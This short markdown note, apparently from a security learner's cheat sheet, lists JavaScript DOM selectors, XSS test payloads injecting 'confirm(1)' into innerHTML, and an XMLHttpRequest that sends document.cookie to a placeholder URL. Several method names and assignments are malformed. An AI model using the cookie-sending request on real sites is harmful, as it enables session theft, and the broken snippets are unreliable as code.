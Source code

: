 # Javascript Breakdown and JQuery Requests (Thanks to @Legacyy for assisting me)

Javascript
```
document.getElementById
document.getElementByClassName
document.getElementsByName
document.getElementsByTagName
document.getElementsByTagNameNS

var variablename document.getElementByIdTagName("tagName").innerHTML = "-confirm(1)-"
var variablename document.getElementsByIdTagName("tagName")[0].innerHTML = "-confirm(1)-"
```

## Creating Requests
```
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'URL' + document.cookie, true);
xhttp.send();
```

